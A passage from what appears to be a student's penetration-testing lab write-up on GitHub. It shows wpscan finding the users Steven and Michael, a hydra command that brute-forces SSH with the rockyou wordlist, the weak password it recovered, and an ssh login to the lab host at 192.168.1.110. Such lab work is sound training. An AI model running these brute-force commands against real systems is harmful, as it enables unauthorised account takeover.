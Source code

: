  ![wpscan results](https://github.com/Reeti4cyber/Final-Project/blob/main/Images/wpscan.png "wpscan results")

Identified following users with wpscan:
   - **Steven**
   - **Michael**
  
  ![users results](https://github.com/Reeti4cyber/Final-Project/blob/main/Images/users.png "users results")
  
 - Brute force user's password using hydra.
 
 Hydra is an open-source tool that allows us to perform various kinds of brute force attacks using wordlists.
 
 ``$ hydra -l michael -P /usr/share/wordlists/rockyou.txt -s 22 -f -vV 192.168.1.110 ssh``

- SSH to gain access to user shell.

    - Brute Force attack to guess/finds Michael’s password
          - Password: michael
     
    - Command: 
             - ``` ssh michael@192.168.1.110 ```
            
 ![michaelssh results](https://github.com/Reeti4cyber/Final-Project/blob/main/Images/michaelssh.png "michaelssh results")
